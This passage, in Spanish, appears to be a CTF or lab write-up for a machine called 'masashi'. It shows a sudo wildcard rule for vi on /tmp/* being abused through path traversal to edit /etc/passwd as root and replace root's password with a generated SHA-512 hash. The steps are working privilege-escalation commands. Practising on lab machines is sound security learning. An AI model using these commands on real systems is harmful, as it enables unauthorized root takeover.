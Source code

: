 ```


##Creator: Donald Munengiwa
##Twitter: @lorde_zw
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for sv5 on masashi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sv5 may run the following commands on masashi:
    (ALL) NOPASSWD: /usr/bin/vi /tmp/*
```

Veremos que podemos ejecutar `vi` en la siguiente ruta como `root` y podremos escapara ya que tiene una vulnerabilidad con el `*`...

```shell
sudo vi /tmp/../etc/passwd
```

Con esto estariamos dentro del archivo `passwd` en modo `root` y podremos cambiarle la contraseña a `root`...

> Maquina host

```
echo -n "1234" | mkpasswd --method=sha-512
```

Info:

```
Password: 
$6$QVfZENK8GFew8ORs$aZca7dlD0oOlnURWsTD.QvQbomxqIEkzFeHhk.V5ukPRL9P7yHBJ43UjA6Us57oU.ERP/8Mtbb2160aYWM/z0/
```

Donde te pedira la `password` metemos la misma con lo que estamos haciendo el `echo` y nos proporcionara un `hash` el cual insertaremos en el archivo `passwd`...

> Maquina victima

Presionamos la tecla `i` para entrar en modo edicion, una vez insertado la contraseña a `root` donde pone la `x` es donde tendremos que reempalazar con el `hash` le daremos a la tecla `esc` para salir del modo edicion y pondremos...

```
:wq
```

Para guardar el archivo automaticamente y salir del modo edicion...

el archivo tendria que quedar algo tal que asi...

```
root:$6$QVfZENK8GFew8ORs$aZca7dlD0oOlnURWsTD.QvQbomxqIEkzFeHhk.V5ukPRL9P7yHBJ43UjA6Us57oU.ERP/8Mtbb2160aYWM/z0/:0:0:root:/root:/bin/bash
```
